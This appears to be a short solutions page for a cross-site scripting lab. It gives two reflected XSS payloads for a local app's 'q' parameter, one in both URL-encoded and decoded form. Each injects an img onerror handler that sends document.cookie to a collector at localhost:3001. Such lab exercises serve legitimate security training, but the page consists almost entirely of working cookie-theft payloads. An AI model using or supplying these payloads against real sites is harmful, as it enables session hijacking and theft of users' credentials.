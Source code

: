 
# Solutions
1. `http://localhost:3000/?q=<img src=x onerror=this.src='http://localhost:3001/cookie?data='+document.cookie;>`

2.  encoded - `%3Cimg%20src%3Dx%20onerror%3D%22var%20img%20%3D%20document%2EcreateElement%28%27img%27%29%3B%20img%2Esrc%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D%27%20%2B%20document%2Ecookie%3B%22%3E
`
decoded - `<img src=x onerror="var img = document.createElement('img'); img.src = 'http://localhost:3001/cookie?data=' + document.cookie;">`
